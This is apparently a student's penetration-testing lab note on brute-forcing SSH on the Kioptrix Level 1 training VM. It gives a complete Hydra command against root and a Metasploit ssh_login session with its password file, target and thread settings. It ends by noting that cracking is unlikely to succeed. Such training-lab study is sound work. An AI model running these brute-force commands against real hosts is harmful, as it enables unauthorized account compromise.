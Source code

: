
**Exploit kioptrix level 1 (SSH)**

BRUTE FORE SSH<br/>
<br/>
SSH - try brute for or use defaults<br/>
1. Check for defaults<br/>
2. checking password str<br/>
3. do Blueteam pick it up<br/>
<br/>
HYDRA<br/>
<br/>
(NOTE) usr/share wordlist.. lost of wordlists<br/>
<br/>
syntax &gt;&gt;&gt; hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.247.129 -t 4 -V<br/>
hydra - calls program<br/>
-l - user to use/attack<br/>
root - attacking root<br/>
-P -wordlist<br/>
ssh&lt;ip&gt; - ip to connect to <br/>
-t number of threads for speed<br/>
-V verbosity, see what is getting through<br/>
<br/>
<img height="350" src="image 2.png" width="613"/><br/>
<br/>
<br/>
<br/>
<br/>
METASPLOIT<br/>
<br/>
<br/>
search ssh or ssh login<br/>
<br/>
<img height="300" src="image.png" width="556"/><br/>
<br/>
auxiliary scanner login &gt; login check scanner<br/>
auxiliary/scanner/ssh/ssh_login<br/>
<br/>
syntax &gt; use auxiliary/scanner/ssh/ssh_login<br/>
<br/>
Check options. lots of options<br/>
<br/>
msf6 &gt; use auxiliary/scanner/ssh/ssh_login<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; options<br/>
<br/>
Module options (auxiliary/scanner/ssh/ssh_login):<br/>
<br/>
 Name       Current Setting Required Description<br/>
 ----       --------------- -------- -----------<br/>
 BLANK_PASSWORDS  false      no    Try blank passwords for all users<br/>
 BRUTEFORCE_SPEED 5        yes    How fast to bruteforce, from 0 to 5<br/>
 DB_ALL_CREDS   false      no    Try each user/password couple stored in the current database<br/>
 DB_ALL_PASS    false      no    Add all passwords in the current database to the list<br/>
 DB_ALL_USERS   false      no    Add all users in the current database to the list<br/>
 DB_SKIP_EXISTING none       no    Skip existing credentials stored in the current database (Accepted: none, user, u<br/>
                        ser&amp;realm)<br/>
 PASSWORD              no    A specific password to authenticate with<br/>
 PASS_FILE             no    File containing passwords, one per line<br/>
 RHOSTS               yes    The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using<br/>
                        -Metasploit<br/>
 RPORT       22        yes    The target port<br/>
 STOP_ON_SUCCESS  false      yes    Stop guessing when a credential works for a host<br/>
 THREADS      1        yes    The number of concurrent threads (max one per host)<br/>
 USERNAME              no    A specific username to authenticate as<br/>
 USERPASS_FILE           no    File containing users and passwords separated by space, one pair per line<br/>
 USER_AS_PASS   false      no    Try the username as the password for all users<br/>
 USER_FILE             no    File containing usernames, one per line<br/>
 VERBOSE      false      yes    Whether to print output for all attempts<br/>
<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt<br/>
pass_file =&gt; /usr/share/wordlists/metasploit/unix_passwords.txt<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set rhosts 192.168.247.129<br/>
rhosts =&gt; 192.168.247.129<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; option<br/>
[-] Unknown command: option<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; option<br/>
[-] Unknown command: option<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; options<br/>
<br/>
Module options (auxiliary/scanner/ssh/ssh_login):<br/>
<br/>
 Name       Current Setting           Required Description<br/>
 ----       ---------------           -------- -----------<br/>
 BLANK_PASSWORDS  false                no    Try blank passwords for all users<br/>
 BRUTEFORCE_SPEED 5                  yes    How fast to bruteforce, from 0 to 5<br/>
 DB_ALL_CREDS   false                no    Try each user/password couple stored in the current database<br/>
 DB_ALL_PASS    false                no    Add all passwords in the current database to the list<br/>
 DB_ALL_USERS   false                no    Add all users in the current database to the list<br/>
 DB_SKIP_EXISTING none                no    Skip existing credentials stored in the current database (Acce<br/>
                                 pted: none, user, user&amp;realm)<br/>
 PASSWORD                       no    A specific password to authenticate with<br/>
 PASS_FILE     /usr/share/wordlists/metasploit/un no    File containing passwords, one per line<br/>
          ix_passwords.txt<br/>
 RHOSTS      192.168.247.129           yes    The target host(s), see https://github.com/rapid7/metasploit-f<br/>
                                 ramework/wiki/Using-Metasploit<br/>
 RPORT       22                 yes    The target port<br/>
 STOP_ON_SUCCESS  false                yes    Stop guessing when a credential works for a host<br/>
 THREADS      1                  yes    The number of concurrent threads (max one per host)<br/>
 USERNAME                       no    A specific username to authenticate as<br/>
 USERPASS_FILE                     no    File containing users and passwords separated by space, one pa<br/>
                                 ir per line<br/>
 USER_AS_PASS   false                no    Try the username as the password for all users<br/>
 USER_FILE                       no    File containing usernames, one per line<br/>
 VERBOSE      false                yes    Whether to print output for all attempts<br/>
<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set threads 10<br/>
threads =&gt; 10<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set verbose true<br/>
verbose =&gt; true<br/>
<br/>
DONT FORGET SET USERNAME<br/>
<br/>
always double check options<br/>
<br/>
<img height="250" src="image 3.png" width="639"/><br/>
<br/>
From both scans, unlikely to have weak password that can be comprimised in a reasonble time on this machine. <br/>
<br/>
